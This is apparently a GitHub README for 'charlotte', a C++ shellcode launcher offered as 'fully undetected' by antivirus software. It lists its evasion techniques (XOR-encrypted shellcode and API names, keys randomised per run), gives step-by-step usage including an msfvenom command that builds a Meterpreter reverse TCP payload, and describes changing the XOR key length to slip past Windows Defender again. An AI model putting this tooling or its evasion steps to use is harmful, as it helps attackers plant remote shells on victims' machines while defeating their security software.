



# charlotte
 c++ fully undetected shellcode launcher ;)

 releasing this to celebrate the birth of my newborn 

## description
13/05/2021:

1. c++ shellcode launcher, fully undetected 0/26 as of 13th May 2021.
2. dynamic invoking of win32 api functions
3. XOR encryption of shellcode and function names
4. randomised XOR keys and variables per run
5. on Kali Linux, simply 'apt-get install mingw-w64*' and thats it!

17/05/2021:

6. random strings length and XOR keys length 

## antiscan.me

## usage

git clone the repository, generate your shellcode file with the naming beacon.bin, and run charlotte.py

example:
1. git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
2. cd charlotte
3. msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
4. python charlotte.py
5. profit

### tested with msfvenom -p (shown in the .gif POC below) and also cobalt strike raw format payload

## update v1.1 

17/05/21:

apparently Microsoft Windows Defender was able to detect the .DLL binary,

and how did they flag it? by looking for several XOR keys of 16 byte size 

changing it to 9 shown in the POC .gif below shows it is now undetected again

cheers!

